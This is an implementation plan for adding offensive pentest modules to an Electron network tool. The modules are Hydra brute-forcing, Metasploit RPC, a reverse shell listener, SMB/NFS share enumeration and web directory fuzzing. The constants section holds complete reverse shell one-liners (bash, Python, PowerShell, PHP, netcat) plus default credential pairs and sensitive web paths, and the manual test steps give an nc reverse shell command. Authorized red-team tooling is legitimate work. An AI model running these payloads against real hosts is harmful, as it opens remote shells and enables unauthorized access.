

# Feature #4: Offensive Penetration Testing — Implementation Plan

> **Goal:** Empower Red Teams with unified, frictionless exploitation and enumeration workflows inside NetSpecter.

This plan covers **five sub-features** from `FEATURES_BRAINSTORM.md` §4:

| # | Sub-Feature | Priority | External Dependency |
|---|---|---|---|
| 4A | Hydra/Medusa Brute-Force Wrappers | High | `hydra` CLI |
| 4B | Metasploit RPC Integration | Medium | `msfrpcd` daemon |
| 4C | Automated Reverse Shell Listener | High | `ncat` (bundled via Nmap) |
| 4D | SMB/NFS Share Enumeration UI | High | `smbclient` / `showmount` |
| 4E | Web Directory Fuzzing | High | Built-in (Node.js HTTP) |

Include detailed instructions for installing, using each external dependency and make sure the existing logic for detecting and notifying user of each external dependency is updated, including the settings form

---

## Architecture Overview

All five sub-features follow NetSpecter's established Electron IPC lifecycle:

```
┌─────────────┐     IPC Channel      ┌──────────────┐     contextBridge     ┌─────────────┐
│  Renderer    │ ←──────────────────→ │  Main Process │ ←──────────────────→ │   Preload   │
│  (index.js)  │   ipc.js constants   │  (main.js)    │   preload.js         │  (api.js)   │
│  + UI panels │                      │  + modules    │                      │             │
└─────────────┘                      └──────────────┘                      └─────────────┘
```

**Established patterns we follow:**
- IPC channels defined in `src/shared/ipc.js` (single source of truth)
- Preload bridge in `src/main/preload.js` via `contextBridge.exposeInMainWorld`
- Renderer API wrapper in `src/renderer/api.js`
- Main process modules: one file per feature (e.g., `nmapScanner.js`, `snmpWalker.js`)
- External tool execution via `child_process.spawn()` with process tracking via `Map`
- Dependency checking via `store.js` → `checkDependency()` pattern
- Stream results to renderer via `mainWindow.webContents.send()`
- Input validation on all IPC payloads in the main process
- Cleanup listeners in `preload.js` → `removeListeners()`
- Test files in `test/` directory using Vitest with mocked Electron/child_process APIs

---

## Shared Infrastructure Changes

These changes apply across all five sub-features.

### [MODIFY] [ipc.js](file:///e:/AntiGravityCode/NetworkDetection/src/shared/ipc.js)

Add new IPC channel constants for all pentest modules:

```js
// Offensive Pentest: Brute-Force
BRUTEFORCE_START: 'bruteforce-start',
BRUTEFORCE_STOP: 'bruteforce-stop',
BRUTEFORCE_ATTEMPT: 'bruteforce-attempt',
BRUTEFORCE_RESULT: 'bruteforce-result',
BRUTEFORCE_PROGRESS: 'bruteforce-progress',
BRUTEFORCE_ERROR: 'bruteforce-error',
BRUTEFORCE_COMPLETE: 'bruteforce-complete',

// Offensive Pentest: Metasploit RPC
MSF_CONNECT: 'msf-connect',
MSF_DISCONNECT: 'msf-disconnect',
MSF_RUN_EXPLOIT: 'msf-run-exploit',
MSF_LIST_EXPLOITS: 'msf-list-exploits',
MSF_SESSION_LIST: 'msf-session-list',
MSF_STATUS: 'msf-status',
MSF_RESULT: 'msf-result',
MSF_ERROR: 'msf-error',

// Offensive Pentest: Reverse Shell Listener
REVSHELL_START: 'revshell-start',
REVSHELL_STOP: 'revshell-stop',
REVSHELL_DATA: 'revshell-data',
REVSHELL_SEND: 'revshell-send',
REVSHELL_CONNECTION: 'revshell-connection',
REVSHELL_ERROR: 'revshell-error',

// Offensive Pentest: Share Enumeration
SHARE_ENUMERATE: 'share-enumerate',
SHARE_BROWSE: 'share-browse',
SHARE_DOWNLOAD: 'share-download',
SHARE_RESULT: 'share-result',
SHARE_ERROR: 'share-error',

// Offensive Pentest: Web Directory Fuzzing
DIRFUZZ_START: 'dirfuzz-start',
DIRFUZZ_STOP: 'dirfuzz-stop',
DIRFUZZ_HIT: 'dirfuzz-hit',
DIRFUZZ_PROGRESS: 'dirfuzz-progress',
DIRFUZZ_COMPLETE: 'dirfuzz-complete',
DIRFUZZ_ERROR: 'dirfuzz-error',
```

### [MODIFY] [store.js](file:///e:/AntiGravityCode/NetworkDetection/src/shared/../main/store.js)

Add dependency path definitions for `hydra`, `smbclient`, and `showmount` following the existing `DEPENDENCY_PATHS` pattern:

```js
hydra: {
  win32: ['hydra', 'C:\\Program Files\\THC-Hydra\\hydra.exe'],
  darwin: ['hydra', '/opt/homebrew/bin/hydra', '/usr/local/bin/hydra'],
  linux: ['hydra', '/usr/bin/hydra', '/usr/local/bin/hydra'],
  versionArg: '-h'
},
smbclient: {
  win32: ['smbclient'],
  darwin: ['smbclient', '/opt/homebrew/bin/smbclient', '/usr/local/bin/smbclient'],
  linux: ['smbclient', '/usr/bin/smbclient', '/usr/local/bin/smbclient'],
  versionArg: '--version'
},
showmount: {
  win32: ['showmount'],
  darwin: ['showmount', '/usr/sbin/showmount'],
  linux: ['showmount', '/usr/sbin/showmount', '/usr/bin/showmount'],
  versionArg: '--version'
},
```

Also extend the `electron-store` schema to persist pentest tool settings.

### [MODIFY] [networkConstants.js](file:///e:/AntiGravityCode/NetworkDetection/src/shared/networkConstants.js)

Add pentest-related constants:

```js
// Brute-force target protocols
export const BRUTEFORCE_PROTOCOLS = ['ssh', 'ftp', 'smb', 'rdp', 'http-get', 'http-post', 'telnet', 'mysql', 'mssql', 'postgres', 'vnc'];

// Default credentials for quick-spray (IoT/lab use)
export const DEFAULT_CREDENTIALS = [
  { user: 'admin', pass: 'admin' },
  { user: 'root', pass: 'root' },
  { user: 'admin', pass: 'password' },
  { user: 'root', pass: 'toor' },
  { user: 'cisco', pass: 'cisco' },
];

// Common web fuzzing paths (built-in mini wordlist)
export const COMMON_WEB_PATHS = [
  '/.env', '/.git/config', '/wp-admin/', '/wp-login.php',
  '/admin/', '/administrator/', '/phpmyadmin/', '/api/',
  '/swagger.json', '/api-docs', '/.htaccess', '/robots.txt',
  '/sitemap.xml', '/backup/', '/config/', '/debug/',
  '/wp-config.php.bak', '/server-status', '/.DS_Store',
];

// Reverse shell one-liner templates keyed by target OS
export const REVSHELL_PAYLOADS = {
  bash: "bash -i >& /dev/tcp/{LHOST}/{LPORT} 0>&1",
  python: "python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect((\"{LHOST}\",{LPORT}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\"/bin/sh\",\"-i\"])'",
  powershell: "$client = New-Object System.Net.Sockets.TCPClient('{LHOST}',{LPORT});$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()",
  php: "php -r '$sock=fsockopen(\"{LHOST}\",{LPORT});exec(\"/bin/sh -i <&3 >&3 2>&3\");'",
  nc: "nc -e /bin/sh {LHOST} {LPORT}",
};
```

### [MODIFY] [preload.js](file:///e:/AntiGravityCode/NetworkDetection/src/main/preload.js)

Add `contextBridge` bindings for all new IPC channels, following the existing pattern. Group under pentest namespace:

```js
// Offensive Pentest
pentest: {
  startBruteForce: (opts) => ipcRenderer.invoke(IPC_CHANNELS.BRUTEFORCE_START, opts),
  stopBruteForce: () => ipcRenderer.invoke(IPC_CHANNELS.BRUTEFORCE_STOP),
  msfConnect: (opts) => ipcRenderer.invoke(IPC_CHANNELS.MSF_CONNECT, opts),
  msfDisconnect: () => ipcRenderer.invoke(IPC_CHANNELS.MSF_DISCONNECT),
  msfRunExploit: (opts) => ipcRenderer.invoke(IPC_CHANNELS.MSF_RUN_EXPLOIT, opts),
  msfListExploits: (query) => ipcRenderer.invoke(IPC_CHANNELS.MSF_LIST_EXPLOITS, query),
  msfSessionList: () => ipcRenderer.invoke(IPC_CHANNELS.MSF_SESSION_LIST),
  startRevShell: (opts) => ipcRenderer.invoke(IPC_CHANNELS.REVSHELL_START, opts),
  stopRevShell: () => ipcRenderer.invoke(IPC_CHANNELS.REVSHELL_STOP),
  sendRevShell: (data) => ipcRenderer.invoke(IPC_CHANNELS.REVSHELL_SEND, data),
  enumerateShares: (opts) => ipcRenderer.invoke(IPC_CHANNELS.SHARE_ENUMERATE, opts),
  browseShare: (opts) => ipcRenderer.invoke(IPC_CHANNELS.SHARE_BROWSE, opts),
  downloadShareFile: (opts) => ipcRenderer.invoke(IPC_CHANNELS.SHARE_DOWNLOAD, opts),
  startDirFuzz: (opts) => ipcRenderer.invoke(IPC_CHANNELS.DIRFUZZ_START, opts),
  stopDirFuzz: () => ipcRenderer.invoke(IPC_CHANNELS.DIRFUZZ_STOP),
},
// Event listeners for pentest streams
onBruteForceAttempt: (cb) => ipcRenderer.on(IPC_CHANNELS.BRUTEFORCE_ATTEMPT, (_e, v) => cb(v)),
onBruteForceResult: (cb) => ipcRenderer.on(IPC_CHANNELS.BRUTEFORCE_RESULT, (_e, v) => cb(v)),
onBruteForceProgress: (cb) => ipcRenderer.on(IPC_CHANNELS.BRUTEFORCE_PROGRESS, (_e, v) => cb(v)),
onBruteForceError: (cb) => ipcRenderer.on(IPC_CHANNELS.BRUTEFORCE_ERROR, (_e, v) => cb(v)),
onBruteForceComplete: (cb) => ipcRenderer.on(IPC_CHANNELS.BRUTEFORCE_COMPLETE, (_e, v) => cb(v)),
onMsfStatus: (cb) => ipcRenderer.on(IPC_CHANNELS.MSF_STATUS, (_e, v) => cb(v)),
onMsfResult: (cb) => ipcRenderer.on(IPC_CHANNELS.MSF_RESULT, (_e, v) => cb(v)),
onMsfError: (cb) => ipcRenderer.on(IPC_CHANNELS.MSF_ERROR, (_e, v) => cb(v)),
onRevShellData: (cb) => ipcRenderer.on(IPC_CHANNELS.REVSHELL_DATA, (_e, v) => cb(v)),
onRevShellConnection: (cb) => ipcRenderer.on(IPC_CHANNELS.REVSHELL_CONNECTION, (_e, v) => cb(v)),
onRevShellError: (cb) => ipcRenderer.on(IPC_CHANNELS.REVSHELL_ERROR, (_e, v) => cb(v)),
onShareResult: (cb) => ipcRenderer.on(IPC_CHANNELS.SHARE_RESULT, (_e, v) => cb(v)),
onShareError: (cb) => ipcRenderer.on(IPC_CHANNELS.SHARE_ERROR, (_e, v) => cb(v)),
onDirFuzzHit: (cb) => ipcRenderer.on(IPC_CHANNELS.DIRFUZZ_HIT, (_e, v) => cb(v)),
onDirFuzzProgress: (cb) => ipcRenderer.on(IPC_CHANNELS.DIRFUZZ_PROGRESS, (_e, v) => cb(v)),
onDirFuzzComplete: (cb) => ipcRenderer.on(IPC_CHANNELS.DIRFUZZ_COMPLETE, (_e, v) => cb(v)),
onDirFuzzError: (cb) => ipcRenderer.on(IPC_CHANNELS.DIRFUZZ_ERROR, (_e, v) => cb(v)),
```

Also add all new channels to the `removeListeners()` cleanup block.

### [MODIFY] [api.js](file:///e:/AntiGravityCode/NetworkDetection/src/renderer/api.js)

Mirror all new preload bindings into the renderer API object under a `pentest` namespace.

---

## Sub-Feature 4A: Hydra/Medusa Brute-Force Wrappers

### [NEW] [bruteForce.js](file:///e:/AntiGravityCode/NetworkDetection/src/main/bruteForce.js)

**Purpose:** Spawn Hydra as a child process with structured output parsing.

**Key design decisions:**
- Uses `child_process.spawn('hydra', [...args])` with the path resolved from `store.js`
- Tracks active brute-force processes in a `Map` keyed by `targetIp:protocol`
- Parses Hydra's stdout line-by-line using `split2` for credential hits
- Streams each attempt/result back to renderer via IPC callbacks
- Supports custom wordlists via Electron's `dialog.showOpenDialog` file picker
- Validates all inputs: IP regex, port bounds, protocol allowlist from `BRUTEFORCE_PROTOCOLS`
- Rate limiting: configurable thread count (`-t`) and delay (`-W`) to avoid lockouts
- Max attempts cap (configurable, default 10,000) as a safety guard

**Exported functions:**
```js
export function startBruteForce(options, onAttempt, onResult, onProgress, onError, onComplete)
export function stopBruteForce()
export function isBruteForceRunning()
```

**Options schema:**
```js
{
  targetIp: string,       // validated via ipRegex
  port: number,           // 1-65535
  protocol: string,       // from BRUTEFORCE_PROTOCOLS allowlist
  username: string,       // single user or 'file:/path/to/users.txt'
  wordlistPath: string,   // absolute path to wordlist file
  threads: number,        // default 4, max 16
  delay: number,          // ms between attempts, default 0
  maxAttempts: number,    // safety cap, default 10000
  customArgs: string[],   // optional extra hydra flags
}
```

**Hydra command construction:**
```bash
hydra -l <user> -P <wordlist> -s <port> -t <threads> -W <delay> -f -V <target> <protocol>
```

**Output parsing** (Hydra outputs found credentials as):
```
[<port>][<protocol>] host: <ip>   login: <user>   password: <pass>
```

Parse via regex: `/^\[(\d+)\]\[(\w+)\]\s+host:\s+(\S+)\s+login:\s+(\S+)\s+password:\s+(.+)$/`

### [MODIFY] [main.js](file:///e:/AntiGravityCode/NetworkDetection/src/main/main.js)

Add import and IPC handler registration:

```js
import { startBruteForce, stopBruteForce } from './bruteForce.js';

ipcMain.handle(IPC_CHANNELS.BRUTEFORCE_START, async (event, options) => {
  // Validate: ip, port, protocol allowlist, wordlist path exists
  startBruteForce(options,
    (attempt) => mainWindow?.webContents.send(IPC_CHANNELS.BRUTEFORCE_ATTEMPT, attempt),
    (result) => mainWindow?.webContents.send(IPC_CHANNELS.BRUTEFORCE_RESULT, result),
    (progress) => mainWindow?.webContents.send(IPC_CHANNELS.BRUTEFORCE_PROGRESS, progress),
    (err) => mainWindow?.webContents.send(IPC_CHANNELS.BRUTEFORCE_ERROR, err),
    (msg) => mainWindow?.webContents.send(IPC_CHANNELS.BRUTEFORCE_COMPLETE, msg)
  );
  return { status: 'started' };
});

ipcMain.handle(IPC_CHANNELS.BRUTEFORCE_STOP, async () => {
  stopBruteForce();
  return { status: 'stopped' };
});
```

### Renderer UI (in `index.js` / `index.html`)

- **Brute-Force Panel:** Accordion section within a host's action menu or dedicated Pentest tab
- Target IP auto-populated from selected host in the grid
- Protocol dropdown (populated from `BRUTEFORCE_PROTOCOLS`)
- Username field with "Load User List" button
- Wordlist file picker button (opens native file dialog)
- Thread count slider (1–16)
- Start/Stop buttons with animated progress indicator
- Live results table: timestamp, username, password, status (success/fail)
- Successful credentials highlighted in green with copy-to-clipboard

---

## Sub-Feature 4B: Metasploit RPC Integration

### [NEW] [metasploitRpc.js](file:///e:/AntiGravityCode/NetworkDetection/src/main/metasploitRpc.js)

**Purpose:** HTTP JSON-RPC client connecting to a local `msfrpcd` daemon.

**Key design decisions:**
- Pure Node.js `http`/`https` module (no external npm dependency)
- Connects to `msfrpcd` via `POST /api/` with MessagePack or JSON body
- Manages authentication token lifecycle (login → token → use → logout)
- All methods are async/await, returning parsed JSON results
- Connection state tracked: `disconnected | connecting | connected | error`

**Exported functions:**
```js
export async function msfConnect({ host, port, username, password, ssl })
export async function msfDisconnect()
export async function msfListExploits(searchQuery)
export async function msfRunExploit({ modulePath, targetIp, targetPort, payload, options })
export async function msfGetSessions()
export function getMsfStatus()
```

**MSF RPC API calls used:**
| NetSpecter Function | MSF RPC Method |
|---|---|
| `msfConnect` | `auth.login` |
| `msfListExploits` | `module.search` |
| `msfRunExploit` | `module.execute` |
| `msfGetSessions` | `session.list` |
| `msfDisconnect` | `auth.logout` |

**Security considerations:**
- Connection limited to `127.0.0.1` / `localhost` by default (configurable with warning)
- SSL verification configurable
- Auth token stored only in memory, never persisted to disk
- All payloads sanitized before RPC call

### Renderer UI

- **Metasploit Connection Panel:** Host/port/user/pass fields with Connect/Disconnect buttons
- Connection status indicator (colored dot: red/yellow/green)
- Exploit search bar → renders results in a sortable table
- "Auto-suggest exploits" button: cross-references discovered CVEs from Nmap scan results with MSF module database
- Session manager panel: list active sessions, interact/kill buttons
- Run exploit modal: module path, target, payload selection, advanced options accordion

---

## Sub-Feature 4C: Automated Reverse Shell Listener

### [NEW] [revShellListener.js](file:///e:/AntiGravityCode/NetworkDetection/src/main/revShellListener.js)

**Purpose:** Spawn a `ncat` listener or use Node.js `net.createServer()` for a raw TCP listener.

**Key design decisions:**
- Two modes: (1) spawn `ncat -lvnp <port>` for full TTY compatibility, or (2) native `net.createServer` for portability when ncat is unavailable
- Streams incoming connection data back to renderer as terminal output
- Allows sending commands back to the connected shell via `REVSHELL_SEND`
- Only one listener active at a time (enforced)
- Configurable listening port (default 4444), validated 1024–65535

**Exported functions:**
```js
export function startListener(port, mode, onConnection, onData, onError)
export function stopListener()
export function sendToShell(data)
export function isListenerActive()
```

**Reverse shell one-liner generation:**
- Uses `REVSHELL_PAYLOADS` from `networkConstants.js`
- Auto-detects local IP from `os.networkInterfaces()`
- Replaces `{LHOST}` and `{LPORT}` placeholders
- Provides "Copy to Clipboard" buttons for each payload variant

### Renderer UI

- **Reverse Shell Tab:** Embedded terminal-style panel (dark background, monospace font, green text)
- Port input field with Start/Stop listener button
- Connection status banner: "Listening on 0.0.0.0:4444..." or "Connection from 10.0.0.5:52341"
- One-liner generator panel: dropdown (Bash/Python/PowerShell/PHP/Netcat) with auto-populated LHOST/LPORT
- Copy-to-clipboard button on each one-liner
- Command input field at bottom for sending commands to connected shell
- Auto-scroll terminal output with ANSI color support

---

## Sub-Feature 4D: SMB/NFS Share Enumeration UI

### [NEW] [shareEnumerator.js](file:///e:/AntiGravityCode/NetworkDetection/src/main/shareEnumerator.js)

**Purpose:** Enumerate and browse SMB shares (via `smbclient`) and NFS exports (via `showmount`).

**Key design decisions:**
- SMB: spawns `smbclient -L //<ip> -N` (null session) or with credentials
- NFS: spawns `showmount -e <ip>`
- Parses structured output into JSON share objects
- Directory browsing: spawns `smbclient //<ip>/<share> -c 'ls'` per directory
- File download: `smbclient //<ip>/<share> -c 'get <remote> <local>'` → user picks save location via Electron dialog
- All paths sanitized to prevent path traversal in SMB commands

**Exported functions:**
```js
export async function enumerateShares(targetIp, credentials, onResult, onError)
export async function browseShare(targetIp, shareName, remotePath, credentials, onResult, onError)
export async function downloadFile(targetIp, shareName, remotePath, localPath, onError)
```

**Output structures:**
```js
// Share list result
{ type: 'smb'|'nfs', shares: [{ name, type, comment, permissions }] }

// Directory listing
{ path: '/Documents', entries: [{ name, type: 'file'|'dir', size, modified }] }
```

### Renderer UI

- **Share Explorer Panel:** Triggered via right-click host → "Enumerate Shares"
- Split-pane layout: share list (left) / file browser (right)
- File explorer tree with folder expand/collapse, file icons by type
- Optional credentials form (username/password/domain) for authenticated access
- Download button per file → native save dialog
- Breadcrumb navigation bar showing current path
- Permission badges (read/write) on each share

---

## Sub-Feature 4E: Web Directory Fuzzing

### [NEW] [dirFuzzer.js](file:///e:/AntiGravityCode/NetworkDetection/src/main/dirFuzzer.js)

**Purpose:** Built-in web directory fuzzer using Node.js `http`/`https` modules — no external dependency required.

**Key design decisions:**
- Pure Node.js implementation: uses `http.request()` / `https.request()` for each path
- Concurrency controlled via a semaphore pattern (configurable, default 10 concurrent requests)
- Built-in mini wordlist from `COMMON_WEB_PATHS` in `networkConstants.js`
- Custom wordlist loading via file picker (one path per line)
- Filters results by status code: configurable which codes to report (default: 200, 301, 302, 403)
- Follows pattern from `securityAnalyzer.js` → `fetchHttp()` for HTTP probing
- Streams each hit back to renderer in real-time
- Cancellable via AbortController

**Exported functions:**
```js
export function startDirFuzz(options, onHit, onProgress, onComplete, onError)
export function stopDirFuzz()
export function isDirFuzzRunning()
```

**Options schema:**
```js
{
  targetUrl: string,          // e.g., "http://192.168.1.100:8080"
  wordlistPath: string|null,  // null = use built-in COMMON_WEB_PATHS
  extensions: string[],       // e.g., ['.php', '.html', '.txt', '.bak']
  statusFilter: number[],     // status codes to report, default [200,301,302,403]
  concurrency: number,        // max parallel requests, default 10
  timeout: number,            // per-request timeout ms, default 3000
  followRedirects: boolean,   // default false
  customHeaders: object,      // optional headers like { 'User-Agent': '...' }
}
```

**Hit result payload:**
```js
{
  path: '/.git/config',
  statusCode: 200,
  contentLength: 1234,
  contentType: 'text/plain',
  redirectUrl: null,
  responseTime: 42,
}
```

### Renderer UI

- **Dir Fuzzer Panel:** Accessible from host context menu or dedicated pentest tab
- Target URL auto-populated from selected host + detected HTTP port
- Wordlist selector: "Built-in (20 paths)" or "Custom" with file picker
- Extension append field (comma-separated)
- Status code filter checkboxes (200 ✓, 301 ✓, 302 ✓, 403 ✓, 500 ☐)
- Concurrency slider (1–50)
- Start/Stop/Clear buttons
- Live results table: path, status, size, content-type, response time
- Progress bar: X of Y paths tested
- Color coding: 200=green, 301/302=blue, 403=orange, 500=red

---

## UI Integration Strategy

### Host Context Menu Enhancement

Extend the existing right-click host context menu in `index.js`:

Verify that the context menu is actually working for all views
```
Right-Click Host
├── Deep Scan
├── Nmap Scan ►
├── SNMP Walk
├── PCAP Capture
├── ──────────────   (separator)
├── ⚔️ Pentest ►
│   ├── Brute-Force Attack...
│   ├── Enumerate Shares
│   ├── Fuzz Web Directories
│   └── Suggest Metasploit Exploits
├── ──────────────
├── Open in Browser
├── SSH Connect
└── ...
```

### Pentest Dashboard Tab

Add a top-level "⚔️ Pentest" tab alongside existing tabs. Contains:
1. **Active Operations** panel — running brute-forces, fuzzers, listeners
2. **Reverse Shell Listener** — always-visible terminal
3. **Metasploit Connection** — status + session list
4. **Findings** — aggregated successful credentials, open shares, discovered paths

### CSS Styling

Follow existing glassmorphic dark theme in `style.css`:
- Red/orange accent palette for offensive tools (distinct from blue/green network tools)
- Terminal panels: `background: #0d1117`, `font-family: 'Fira Code', monospace`, green text
- Animated pulse indicator on active operations
- Status badges: `.badge-critical` (red), `.badge-success` (green), `.badge-warning` (orange)

---

## Security & Safety Controls

> [!CAUTION]
> Offensive tools carry inherent risk. The following safety mechanisms are **mandatory**.

1. **Explicit User Consent:** First-time use of any pentest tool triggers a modal warning dialog: _"This tool performs active offensive operations. Only use on networks you are authorized to test."_ Consent stored in `electron-store`.
2. **Scope Enforcement:** All operations validate target IP is within the user's configured scope (if scope is defined). Out-of-scope targets are rejected with an error.
3. **Rate Limiting:** Brute-force defaults to 4 threads with configurable delay. Hard cap of 16 threads.
4. **Logging:** Every pentest action logged with timestamp, target, operator, action type — supports future audit trail feature (Feature #3).
5. **Process Cleanup:** All spawned child processes tracked in Maps and killed on window close, app quit, or explicit stop.
6. **Input Sanitization:** All IPC payloads validated in the main process (IP regex, port bounds, protocol allowlist, path existence checks). Never pass unsanitized user input to shell commands.
7. **No Embedded Exploits:** Metasploit integration delegates to an external `msfrpcd` process. NetSpecter never ships exploit code.

---

## New Dependencies

| Package | Purpose | Install |
|---|---|---|
| (none required) | All sub-features use Node.js stdlib + existing `child_process.spawn` pattern | — |

All external tools (`hydra`, `smbclient`, `showmount`, `msfrpcd`) are OS-level dependencies detected via `store.js` → `checkDependency()`. No new npm packages needed.

---

## File Summary

| Action | File | Lines (est.) |
|---|---|---|
| NEW | `src/main/bruteForce.js` | ~180 |
| NEW | `src/main/metasploitRpc.js` | ~220 |
| NEW | `src/main/revShellListener.js` | ~140 |
| NEW | `src/main/shareEnumerator.js` | ~200 |
| NEW | `src/main/dirFuzzer.js` | ~160 |
| MODIFY | `src/shared/ipc.js` | +40 lines |
| MODIFY | `src/shared/networkConstants.js` | +50 lines |
| MODIFY | `src/main/store.js` | +25 lines |
| MODIFY | `src/main/preload.js` | +50 lines |
| MODIFY | `src/main/main.js` | +120 lines |
| MODIFY | `src/renderer/api.js` | +20 lines |
| MODIFY | `src/renderer/index.html` | +200 lines (UI panels) |
| MODIFY | `src/renderer/index.js` | +400 lines (event wiring) |
| MODIFY | `src/renderer/style.css` | +150 lines (pentest theme) |
| NEW | `test/bruteForce.test.js` | ~120 |
| NEW | `test/metasploitRpc.test.js` | ~120 |
| NEW | `test/revShellListener.test.js` | ~100 |
| NEW | `test/shareEnumerator.test.js` | ~120 |
| NEW | `test/dirFuzzer.test.js` | ~120 |

---

## Verification Plan

### Automated Tests (Vitest)

All test files follow the existing mock pattern (see `test/nmapScanner.test.js`, `test/securityAnalyzer.test.js`):

```bash
# Run all tests
npm test

# Run only pentest tests
npx vitest run test/bruteForce.test.js test/metasploitRpc.test.js test/revShellListener.test.js test/shareEnumerator.test.js test/dirFuzzer.test.js
```

**Test coverage targets per module:**

| Test File | What It Covers |
|---|---|
| `bruteForce.test.js` | Input validation (bad IP, invalid protocol, port bounds), spawn args construction, stdout parsing (credential found/not found), process cleanup on stop, max attempts enforcement |
| `metasploitRpc.test.js` | Connection lifecycle (connect/disconnect), auth token handling, HTTP request construction, error handling (unreachable daemon, auth failure), exploit search parsing |
| `revShellListener.test.js` | Listener start/stop, port validation, data streaming to callback, send-to-shell, only-one-listener enforcement, cleanup on stop |
| `shareEnumerator.test.js` | `smbclient` output parsing (share list, directory listing), `showmount` output parsing, credential pass-through, path sanitization, error handling |
| `dirFuzzer.test.js` | Request construction, concurrency enforcement, status code filtering, custom wordlist loading, progress calculation, stop/cancellation via AbortController |

All tests mock `child_process.spawn` and `http.request` — no real network calls.

### Manual Verification

Create a detailed step by step guide to manually verify each feature.

> [!IMPORTANT]
> These manual tests require a lab environment with intentionally vulnerable targets. **Never test against production systems.**

1. **Brute-Force (4A):** Install Hydra, set up a local SSH/FTP service with known credentials. Run brute-force from the UI and confirm the credential is found and displayed.
2. **Metasploit (4B):** Start `msfrpcd -P password -S -f`. Connect from NetSpecter UI. Search for exploits, verify results render. (Do NOT execute exploits outside a lab.)
3. **Reverse Shell (4C):** Start listener in the UI on port 4444. From a second terminal run `nc <your-ip> 4444 -e /bin/sh`. Verify connection banner appears and commands can be sent/received.
4. **Share Enum (4D):** Set up a local SMB share (e.g., Samba on Linux or Windows shared folder). Run share enumeration, browse directories, download a test file.
5. **Dir Fuzzer (4E):** Run a simple HTTP server (`python3 -m http.server 8080`), place a `.env` and `.git/config` file. Run the fuzzer and verify both are discovered.

---

## Implementation Order

Recommended phased delivery:



**Rationale:** Start with sub-features that have zero external dependencies (4E, 4C) to validate the IPC pipeline end-to-end. Then layer on external-tool wrappers (4A, 4D). Metasploit RPC is last due to its complexity and optional nature.
